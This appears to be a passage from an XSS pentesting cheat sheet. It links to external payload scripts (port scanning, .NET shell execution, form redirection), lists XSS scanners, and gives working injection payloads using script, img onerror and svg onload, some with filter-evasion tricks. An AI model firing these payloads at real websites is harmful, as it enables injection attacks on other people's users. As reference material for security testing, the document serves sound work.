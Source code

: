 ### Other ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)

## Identify an XSS endpoint

```javascript
<script>debugger;</script>
```

### Tools 

Most tools are also suitable for blind XSS attacks:

* [XSSStrike](https://github.com/s0md3v/XSStrike): Very popular but unfortunately not very well maintained
* [xsser](https://github.com/epsylon/xsser): Utilizes a headless browser to detect XSS vulnerabilities
* [Dalfox](https://github.com/hahwul/dalfox): Extensive functionality and extremely fast thanks to the implementation in Go
* [XSpear](https://github.com/hahwul/XSpear): Similar to Dalfox but based on Ruby
* [domdig](https://github.com/fcavallarin/domdig): Headless Chrome XSS Tester

## XSS in HTML/Applications

### Common Payloads

```javascript
// Basic payload
<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

// Img payload
<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

// Svg payload
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)

// Div payload
<div onpointerover="alert(45)">MOVE HERE</div>
```